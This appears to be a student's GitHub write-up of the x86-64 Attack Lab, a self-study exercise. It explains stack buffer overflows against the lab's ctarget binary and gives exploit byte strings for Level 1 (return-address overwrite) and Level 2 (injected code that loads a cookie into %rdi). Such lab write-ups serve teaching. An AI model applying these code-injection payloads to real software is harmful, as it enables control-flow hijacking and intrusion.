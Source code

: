 # Attack Lab
This is an x86-64 attack lab for self-study students.

I also document what I had to do to solve this lab.

## Tools
- GDB
- objdump
- GCC

## Level 1
This is a simple buffer overflow exploit. You can see the dump of the ctarget binary [here](./dump_ctarget.txt). We need to exploit the vulnerability in [getbuf](./dump_ctarget.txt#L777). The first instruction is the key here. `sub $0x28,%rsp` means we will need to provide 40 bytes before we can modify the return address located in the stack. In the 40th byte, we will give the address of the function [touch1](./dump_ctarget.txt#L787) in little endian format (`c0 17 40 00 00 00 00 00`). Hence, we get the following answer:
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00
```

## Level 2
Similar to level 1 except we need to add the instruction to store our cookie in register `%rdi`. We need to execute few instructions before we transfer control to touch2. For this, we will need the 40-47 bytes to contain the address pointing back into the stack that contains the *buffer* (0-39 bytes from getbuf). The buffer will be modified in such a way that it will update the value of register %rdi (the first argument to the function), and then hand over the control to touch2. To get to the function touch2, we will use the `retq` instruction. Recall that `retq` pops the value from the stack and into the register `%rip` (register which holds the memory address to the next instruction to execute). This means we will have to push the address of touch2 into our stack. This push will modify the return address located in our stack (bytes 40-47), which will allow our exploit to safely transfer the control. The instructions we will execute will look like this:
```asm
0:	68 ec 17 40 00       	pushq  $0x4017ec           /* Push address of touch2 to stack  */
5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi    /* Move cookie to register %rdi */
c:	c3                   	retq   
d:	90                   	nop
e:	90                   	nop
f:	90                   	nop
```

Our answer will then, look like this:
```
68 ec 17 40 00 48 c7 c7
fa 97 b9 59 c3 90 90 90
ec 17 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

